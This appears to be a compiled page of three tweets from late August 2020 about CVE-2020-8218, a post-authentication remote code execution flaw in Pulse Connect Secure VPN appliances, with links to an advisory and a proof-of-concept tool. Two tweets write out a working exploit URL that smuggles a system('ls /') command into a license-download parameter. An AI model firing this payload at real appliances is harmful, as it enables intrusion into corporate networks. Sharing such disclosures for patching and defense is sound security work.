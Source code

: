 # jas502n
**https://twitter.com/jas502n/status/1300245292508307456 _at 2020-08-31, 01:33:29_**
<blockquote>
RCE in Pulse Connect Secure RCE (CVE-2020-8218) &lt; v9.1R8

POC:
https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever%20-n%20%27($x=%22ls%20/%22,system$x)%3b%20%23%27%20-e%20/data/runtime/tmp/tt/setcookie.thtml.ttc
 https://t.co/u56yPrxO6R
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1299964418256707586 _at 2020-08-30, 06:57:24_**
<blockquote>
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218) https://t.co/wYv8IzMoFA
</blockquote>

* https://github.com//withdk//pulse-gosecure-rce-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>90</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1299655751758221319 _at 2020-08-29, 10:30:52_**
<blockquote>
CVE-2020-8218 : Pulse Secure SSL-VPN post-auth RCE
Cc @chybeta

hxxps://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/okL58FZVJU https://t.co/OGxySMF4SM
</blockquote>
